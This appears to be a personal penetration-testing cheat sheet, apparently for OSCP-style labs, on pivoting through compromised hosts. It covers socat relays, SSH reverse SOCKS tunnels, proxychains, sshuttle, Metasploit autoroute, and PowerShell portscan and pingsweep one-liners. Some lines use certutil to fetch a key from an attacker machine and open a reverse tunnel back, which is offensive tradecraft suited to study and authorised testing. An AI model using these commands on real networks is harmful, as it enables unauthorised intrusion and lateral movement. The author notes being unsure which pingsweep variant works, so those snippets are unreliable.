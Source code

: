 <%*
const path = tp.file.folder(true).split('/');
const filename = "4_B_Network_" + path[path.length - 1];
await tp.file.rename(filename)
-%>
# Port Redirect

\[Subnets\]                         WAN          |     Subnet  1     |      Subnet 2     |      Subnet 3
\[Hosts\]               Kali    --->   Machine A ---> Machine B ---> Machine C
\-
\[Simple\]                                        Socat                  Target
\[Local\]                                      SSH Client           SSH Server             Target
\[Remote\]     SSH Server          SSH Client              Target

### Simple static
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:$hip:$hport
```
(Machine A)

Alternative with netcat: https://gist.github.com/holly/6d52dd9addd3e58b2fd5
Alternative requiring root rights: iptables
### Local Dynamic
```powershell
ssh -N -D 0.0.0.0:9997 $user_B@$ip_B
```
(Machine A)

### Remote Dynamic with ProxyChains and SSH
> Requires SSH above 7.6. Check with `ssh -V`.
##### 1st Setup (kali machine)
SSH
```
ssh-keygen -t rsa -b 4096 -f ./id_rsa_kali
cat ./id_rsa_kali.pub >> ~/.ssh/authorized_keys
chmod 600 ~/.ssh/authorized_keys
```
ProxyChains
```bash
nano /etc/proxychains4.conf
```
> With it, tools that do not support socks proxys by default, can be made compatible with the tunnel IF they are (most) dynamically-linked binaries.
> For local redirects add `socks5 $hip 9999` to the end.
> For remote redirects use `socks5 127.0.0.1 9999`.
> If socks4 is required, UDP and IPv6 won't be supported.
##### Use it
(kali machine)
```bash
sudo systemctl start ssh
```

(Machine A, interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.195:8000/id_rsa_kali"; ssh -i id_rsa_kali -N -R 9997 kali@192.168.45.195
```
or
(Machine A, non-interactive)
```powershell
certutil.exe -urlcache -split -f "http://192.168.45.182:8000/id_rsa_kali"; ssh -f -q -o BatchMode=yes -o StrictHostKeyChecking=no -o UserKnownHostsFile=/dev/null -i id_rsa_kali -N -R 9997 kali@$hip
```

(kali machine)
`proxychains <command>` to start e.g. a nmap scan over the pivot. It appears to then not use the IP-Addresses put into `/etc/hosts`

### Remote Dynamic with sshuttle
> Requires python on machine A!

```bash
socat TCP-LISTEN:2222,fork TCP:$ip_B:22
```
(Machine A)

```bash
sshuttle -r $user_A@$ip_A:2222 $subnet_2 $subnet_1
```
(kali machine)

### Remote Dynamic with Metasploit
Within an exististing session:
1. `bg`
2. `use post/multi/manage/autoroute`, `set session 1`, and `run -j` (adjust the session number)
3. `use auxiliary/server/socks_proxy`, `set VERSION 5`, `set SRVHOST 127.0.0.1`, `set SRVPORT 9989`, and `run -j`
4. Add `socks5 127.0.0.1 9989` to `/etc/proxychains4.conf` 

# Fault handling
Test the connection
`proxychains nmap -Pn $hip -p $hport`
`sudo ss -ntplu`

Proxychains does not work with tool (e.g. enum4linux)
`proxychains -q`

Slow scanning speeds
--> lower `tcp_read_time_out` and `tcp_connect_time_out` in `/etc/proxychains4.conf`

Start SSH Agent on windows
`Get-Service ssh-agent | Select StartType` says disabled
--> `Get-Service -Name ssh-agent | Set-Service -StartupType Manual ; Start-Service ssh-agent`

Correct ssh-key permissions on windows
```powershell
New-Variable -Name Key -Value "C:\Users\Public\id_rsa_kali"
# Remove Inheritance:
  Icacls $Key /c /t /Inheritance:d

# Set Ownership to Owner:
  # Key's within $env:UserProfile:
    Icacls $Key /c /t /Grant ${env:UserName}:F

   # Key's outside of $env:UserProfile:
     TakeOwn /F $Key
     Icacls $Key /c /t /Grant:r ${env:UserName}:F

# Remove All Users, except for Owner:
  Icacls $Key /c /t /Remove:g Administrator "Authenticated Users" BUILTIN\Administrators BUILTIN Everyone System Users

# Verify:
  Icacls $Key

# Remove Variable:
  Remove-Variable -Name Key
```
# Windows specific

Enable Telnet
```powershell
dism /online /Enable-Feature /FeatureName:TelnetClient
```
Portscan LOLBAS
```powershell
1..1024 | % {echo ((New-Object Net.Sockets.TcpClient).Connect("$hip", $_)) "TCP port $_ is open"} 2>$null
```
Pingsweep LOLBAS (**I SPENT SOME TIME FINDING THE MOST EFFICIENT APPROACH AND FORGOT TO NOTE WHICH OF THESE WORKED**)
```powershell
workflow pingsweep { foreach -parallel ($computer in 1..254) { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$computer -Quiet) {echo "192.168.209.$computer"} {echo "nein"} } }; pingsweep
```

```powershell
1..254 | % { if (Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$_ -Quiet) {echo "192.168.209.$_"}} 2>$null
```

```powershell
$(foreach ($computer in 1..254) { Start-Job -ScriptBlock { if ( Test-Connection -BufferSize 32 -Count 1 -ComputerName 192.168.209.$using:computer -Quiet ) {echo "192.168.209.$using:computer"} } }) | Receive-Job -Wait
```


For port forwarding techniques using the windows tools plink, and netsh, consider the oscp manual

##### Create working dirs and start individual system scanning

```bash
for i in $(tail -n 7 0_Hosts); do (mkdir -p "B_$i" && cd $_ && proxychains nmap -Pn --osscan-guess -T 5 -A --top-ports 100 $i -oX - | xsltproc -o 0_overview.html - && firefox 0_overview.html)& done
```
